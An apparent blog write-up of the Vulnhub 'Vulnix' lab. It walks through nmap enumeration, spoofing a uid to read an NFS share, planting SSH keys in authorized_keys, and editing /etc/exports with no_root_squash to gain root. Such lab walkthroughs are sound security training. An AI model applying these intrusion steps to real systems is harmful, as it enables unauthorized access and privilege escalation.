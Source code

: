 ```yaml
---
layout: single_c
title:  "Vulnhub - Vulnix Writeup"
toc: true
date:   2020-04-18 10:43:16 +0530
categories: Vulnhub
tags: OSCP
classes: wide
---
```

## Description
[Vulnhub - Vulnix.](https://www.vulnhub.com/entry/hacklab-vulnix,48/) Here we have a vulnerable Linux host with configuration weaknesses rather than purposely vulnerable software versions (well at the time of release anyway!)

The host is based upon Ubuntu Server 12.04 and is fully patched as of early September 2012. 


The goal; boot up, find the IP, hack away and obtain the trophy hidden away in /root by any means you wish – excluding the actual hacking of the vmdk

Free free to contact me with any questions/comments using the comments section below.

Enjoy!


## Enumeration

### Nmap

```bash
kali@kali:~/Desktop/tools/autorecon/results/vulnix.com/scans$ cat _full_tcp_nmap.txt | grep open
22/tcp    open  ssh        syn-ack ttl 64 OpenSSH 5.9p1 Debian 5ubuntu1 (Ubuntu Linux; protocol 2.0)
25/tcp    open  smtp       syn-ack ttl 64 Postfix smtpd
79/tcp    open  finger     syn-ack ttl 64 Linux fingerd
110/tcp   open  pop3       syn-ack ttl 64 Dovecot pop3d
111/tcp   open  rpcbind    syn-ack ttl 64 2-4 (RPC #100000)
143/tcp   open  imap       syn-ack ttl 64 Dovecot imapd
512/tcp   open  exec       syn-ack ttl 64 netkit-rsh rexecd
513/tcp   open  login      syn-ack ttl 64 OpenBSD or Solaris rlogind
514/tcp   open  tcpwrapped syn-ack ttl 64
993/tcp   open  ssl/imaps? syn-ack ttl 64
995/tcp   open  ssl/pop3s? syn-ack ttl 64
2049/tcp  open  nfs_acl    syn-ack ttl 64 2-3 (RPC #100227)
38531/tcp open  mountd     syn-ack ttl 64 1-3 (RPC #100005)
39828/tcp open  mountd     syn-ack ttl 64 1-3 (RPC #100005)
45132/tcp open  status     syn-ack ttl 64 1 (RPC #100024)
49548/tcp open  mountd     syn-ack ttl 64 1-3 (RPC #100005)
52773/tcp open  nlockmgr   syn-ack ttl 64 1-4 (RPC #100021)
```

Quite a lot of open ports, mainly email related ports.

### NFS

We have a `nfs` running on port `2049`. Check the details using `showmount`.

```bash
kali@kali:~$ sudo showmount -e vulnix.com
Export list for vulnix.com:
/home/vulnix *
kali@kali:~$ 

```

So we can mount `/home/vulnix` on our system and access the file contents.

```bash
kali@kali:/tmp$ sudo mount vulnix.com:/home/vulnix /tmp/vulnix/

```

But trying to access the share fails.

```bash
kali@kali:/tmp$ cd vulnix/
bash: cd: vulnix/: Permission denied
kali@kali:/tmp$ stat vulnix/
  File: vulnix/
  Size: 4096            Blocks: 8          IO Block: 32768  directory
Device: 2fh/47d Inode: 32917       Links: 4
Access: (0750/drwxr-x---)  Uid: (65534/  nobody)   Gid: (4294967294/ UNKNOWN)
Access: 2020-04-25 01:50:44.984072401 -0400
Modify: 2020-04-24 23:01:51.903253225 -0400
Change: 2020-04-24 23:01:51.903253225 -0400
 Birth: -
```

The share seems to be owned by `uid` 65534 and `gid` 4294967294. This is because of a security feature in `NFS 4`. To access a locally mounted share, your `uid` and `gid` need to match the ones of the shared directory on the server.
Unfortunately, for security reasons, `NFS 4` doesn't show the real remote `uid` and `gid`, but the ones corresponding to the `nobody` user and group. But `NFS 3` displays the `uid` and `gid` of the remote user. Lets see if we can mount it using `NFS 3`. 

```bash
kali@kali:/tmp$ sudo mount -o v3 vulnix.com:/home/vulnix /tmp/vulnix/
kali@kali:/tmp$ stat vulnix/
  File: vulnix/
  Size: 4096            Blocks: 8          IO Block: 4096   directory
Device: 2dh/45d Inode: 32917       Links: 4
Access: (0750/drwxr-x---)  Uid: ( 2008/ UNKNOWN)   Gid: ( 2008/ UNKNOWN)
Access: 2020-04-25 01:50:44.984072401 -0400
Modify: 2020-04-24 23:01:51.903253225 -0400
Change: 2020-04-24 23:01:51.903253225 -0400
 Birth: -
```

We can see that the file belongs to a user with `uid` 2008. We can create a user with `uid` 2008. Or alternatively, we can use to use [NfSpy](https://github.com/bonsaiviking/NfSpy), which essentially automates this process (but spoofs the uid and gid instead of actually creating an user).

### Low Shell

`NfSpy` is spitting our errors in my system, so I won't be using it. Create a user with `uid` 2008 to access the share.
```bash
root@kali:/tmp$ sudo useradd -u 2008 vulnix -p vulnix
root@kali:/tmp# su vulnix
$ id
uid=2008(vulnix) gid=2008(vulnix) groups=2008(vulnix)
$ cd /tmp/vulnix
$ ls -la
total 164
drwxr-x---  4 vulnix vulnix  4096 Apr 24 23:01 .
drwxrwxrwt 16 root   root    4096 Apr 26 12:39 ..
-rw-r--r--  1 vulnix vulnix   220 Apr  3  2012 .bash_logout
-rw-r--r--  1 vulnix vulnix  3486 Apr  3  2012 .bashrc
-rw-r--r--  1 vulnix vulnix   675 Apr  3  2012 .profile
```

Create `ssh` keys and add it to `authorized_keys`.

```bash
$ ssh-keygen    
Generating public/private rsa key pair.
Enter file in which to save the key (/home/vulnix/.ssh/id_rsa): /tmp/id_rsa
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /tmp/id_rsa.
Your public key has been saved in /tmp/id_rsa.pub.
The key fingerprint is:
SHA256:cjzGBLkXvS3bSIkrck75gFkhgr1WWRh2EIZDbHG7boA vulnix@kali
The keys randomart image is:
+---[RSA 3072]----+
| =ooBB+. .       |
|. B+=oo.. .      |
| . =.. o.o +     |
| .o  .o+o = .    |
|E.. .+.oSo =     |
|   o+ *+..o .    |
|    o= +         |
|   .  . .        |
|                 |
+----[SHA256]-----+
$ cd vulnix
$ mkdir .ssh
$ cp /tmp/id_rsa.pub ./.ssh/authorized_keys
$ cd .ssh
$ ls -la
total 12
drwx------ 2 vulnix vulnix 4096 Apr 24 22:28 .
drwxr-x--- 4 vulnix vulnix 4096 Apr 24 23:01 ..
-rw------- 1 vulnix vulnix  565 Apr 26 12:53 authorized_keys
```

Login using the private key.

```bash
root@kali:/tmp# ssh vulnix@vulnix.com -i /tmp/id_rsa
Warning: Permanently added the ECDSA host key for IP address '192.168.1.4' to the list of known hosts.
Welcome to Ubuntu 12.04.1 LTS (GNU/Linux 3.2.0-29-generic-pae i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Sun Apr 26 17:55:58 BST 2020

  System load:  0.0              Processes:           89
  Usage of /:   90.3% of 773MB   Users logged in:     0
  Memory usage: 7%               IP address for eth0: 192.168.1.4
  Swap usage:   0%

  => / is using 90.3% of 773MB

  Graph this data and manage this system at https://landscape.canonical.com/

Last login: Sat Apr 25 06:50:41 2020 from 192.168.1.6
vulnix@vulnix:~$ id
uid=2008(vulnix) gid=2008(vulnix) groups=2008(vulnix)
vulnix@vulnix:~$ 
```


### Root Shell

Check `sudo` permissions of the user.

```bash
vulnix@vulnix:~$ sudo -l
Matching 'Defaults' entries for vulnix on this host:
    env_reset, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User vulnix may run the following commands on this host:
    (root) sudoedit /etc/exports, (root) NOPASSWD: sudoedit /etc/exports
vulnix@vulnix:~$ sudoedit /etc/exports 

```
We can edit the config used for `NFS` mount and change it to mount the root directory.

NFS Config

```bash
  GNU nano 2.2.6                                                            File: /var/tmp/exports.XXSHUwwz                                                   Modified  

# /etc/exports: the access control list for filesystems which may be exported
#               to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
#/home/vulnix   *(rw,root_squash)
/   *(rw,no_root_squash)
```

We have to disable [`root_squash`](https://en.wikipedia.org/wiki/Unix_security#Root_squash) and then restart the box manually. I couldn't find any other way to restart the machine. Mount it again after restarting the system and add our `ssh` keys to `root` directory to gain `root` access.

```bash
root@kali:/tmp# sudo mount -o v3 vulnix.com:/ /tmp/vulnroot/
root@kali:/tmp# cd vulnroot/
root@kali:/tmp/vulnroot# ls
bin  boot  dev  etc  home  initrd.img  lib  lost+found  media  mnt  opt  proc  root  run  sbin  selinux  srv  sys  tmp  usr  var  vmlinuz
root@vulnix.com:/:/> mkdir /root/.ssh/
root@vulnix.com:/:/> cp /home/vulnix/.ssh/authorized_keys /root/.ssh/authorized_keys
```

Login using private key to get `root` shell.

```bash
kali@kali:/tmp$ sudo ssh root@vulnix.com -i id_rsa
Welcome to Ubuntu 12.04.1 LTS (GNU/Linux 3.2.0-29-generic-pae i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Sun Apr 26 18:13:51 BST 2020

  System load:  0.0              Processes:           88
  Usage of /:   90.3% of 773MB   Users logged in:     0
  Memory usage: 7%               IP address for eth0: 192.168.1.4
  Swap usage:   0%

  => / is using 90.3% of 773MB

  Graph this data and manage this system at https://landscape.canonical.com/

Last login: Sat Apr 25 08:02:56 2020 from 192.168.1.6
root@vulnix:~# id                                      
uid=0(root) gid=0(root) groups=0(root)   
```
